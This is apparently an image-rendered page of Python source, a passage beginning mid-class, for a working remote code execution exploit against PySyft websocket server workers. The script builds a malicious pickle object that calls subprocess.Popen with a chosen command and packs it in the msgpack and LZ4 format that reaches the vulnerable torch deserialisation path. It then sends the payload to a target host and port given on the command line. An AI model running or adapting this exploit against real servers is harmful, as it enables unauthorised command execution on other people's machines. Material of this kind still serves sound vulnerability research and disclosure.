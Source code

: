 ```Python
            return subprocess.Popen, (self.command, 0, None, None, None, None, None, None, True)
        elif os.name == 'nt':
            return None


def build_exploit(command):
    """
    Based on method _legacy_save from
    torch/serialization.py
    """
    # From syft/serde/compression.py
    LZ4 = 41

    rce_object = MaliciousObject(command)
    command_to_execute = pickle.dumps(rce_object, protocol=2)
    # Constants are required by pytorch to properly iterpret/deserialize the stream.
    # The first value: 14 means that the following object (the tuple) should be interpreted as
    # a Torch Tensor. I've realized this reviewing function "_detail" in:
    # syft/serde/msgpack/serde.py
    # In that function there is a dictionary "detailers".
    # We need this to reach the vulnerable code path where our malicious object
    # is passed to pickle
    payload = (14, (4474411590, command_to_execute, None, None, None, None, (5, (b'torch',))))
    packed_payload = msgpack.packb(payload)

    # Based on _compress method from syft/serde/compression.py
    compressed_payload = LZ4.to_bytes(1, byteorder="big") + lz4.frame.compress(packed_payload)
    return compressed_payload


async def send_payload(host, port):
    uri = "ws://%s:%d" % (host, port)
    async with websockets.connect(uri) as websocket:
        await websocket.send(str(binascii.hexlify(exp)))


parser = argparse.ArgumentParser()
parser.add_argument("host", help="Target host running PySyft websocket server worker", type=str)
parser.add_argument("port", help="Target websocket server port", type=int)
parser.add_argument("--command", help="Command to execute in the target websocket server",
                    type=str, default="touch /tmp/federated_sophia")

args = parser.parse_args()

exp = build_exploit(args.command)
asyncio.get_event_loop().run_until_complete(send_payload(args.host, args.port))
```


